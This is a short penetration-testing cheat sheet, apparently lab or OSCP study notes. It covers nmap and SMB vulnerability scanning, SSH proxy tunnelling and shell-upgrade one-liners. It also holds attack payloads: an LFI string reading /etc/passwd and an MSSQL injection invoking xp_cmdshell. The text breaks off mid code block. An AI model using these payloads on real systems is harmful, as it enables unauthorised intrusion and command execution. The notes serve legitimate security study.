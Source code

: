 # Strategy
## Information Gathering

Run an nmap scan on the target:

```nmap -sU -sT -p- -A -PN -T4 -oN nmap.txt 10.11.1.21```

Tunnel nmap through an ssh proxy
```
ssh sean@10.11.1.251 -D 9005 -N -f
proxychains nmap -sT -T4 -oN itDNS.txt 10.1.1.236
```

Check nmap scripts (https://nmap.org/nsedoc/)

```
ls /usr/share/nmap/scripts/

nmap -v -p 139,445 --script=smb-vuln-* --script-args=unsafe=1 10.11.1.21
nmap -v -p 139,445 --script=smb-enum-* 10.11.1.21

```

Upgrade shell to tty

```
python -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
```

## Exploitation

### Web Applications

- Use nikto or dirb to find pages and apps
- google framework to find out admin console url
- Check Default credentials

gobuster
```
gobuster -u http://10.1.1.1 -w /usr/share/wordlists/dirb/big.txt
```

wordpress
```
wpscan
```

LFI
```
index.php?page=../../../../../etc/passwd%00
```

SQLi

MSSQL
```
a'; EXEC master..xp_cmdshell 'net user'; --
